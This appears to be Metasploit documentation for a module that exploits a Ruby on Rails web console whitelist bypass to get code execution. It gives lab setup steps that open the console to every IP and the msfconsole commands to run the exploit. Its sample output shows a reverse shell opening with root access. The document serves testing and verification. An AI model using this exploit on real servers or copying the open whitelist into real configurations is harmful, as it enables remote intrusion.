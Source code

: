 ## Description

 This module exploits an IP whitelist bypass vulnerability in the developer web console included with Ruby on Rails 4.0.x and 4.1.x. This module will also achieve code execution on Rails 4.2.x if the attack is launched from a whitelisted IP range.

## Verification Steps

**Prerequisites:**

```
gem install rails -v 4.2.6
rails new taco
cd taco
vim config/environments/development.rb
```



Add the following line just before the final `end` tag:

```config.web_console.whitelisted_ips = %w(0.0.0.0/0)```


```
bundle
rails server
```

**Installing nodejs:**

```
sudo apt-get install nodejs
```

**Launch msfconsole:**

1. Do: ```use exploit/multi/http/rails_web_console_v2_code_exec```
2. Do: ```set RHOST [IP]```
3. Do: ```set RPORT [Port]```
4. Do: ```run```

## Sample Output

### Rails version 4.2.6

```
msf > use exploit/multi/http/rails_web_console_v2_code_exec 
msf exploit(rails_web_console_v2_code_exec) > set RHOST 192.168.0.106
msf exploit(rails_web_console_v2_code_exec) > set RPORT 35678
msf exploit(rails_web_console_v2_code_exec) > run

[*] Started reverse TCP handler on 192.168.0.102:4444
[*] Sending payload to /__web_console/repl_sessions/d89c2f96387f4b9dd612c0abb7c06577
[*] Command shell session 1 opened (192.168.0.102:4444 -> 192.168.0.106:35678) at 2017-04-07 04:13:52 +0800

id
uid=0(root) gid=0(root) groups=0(root)
```
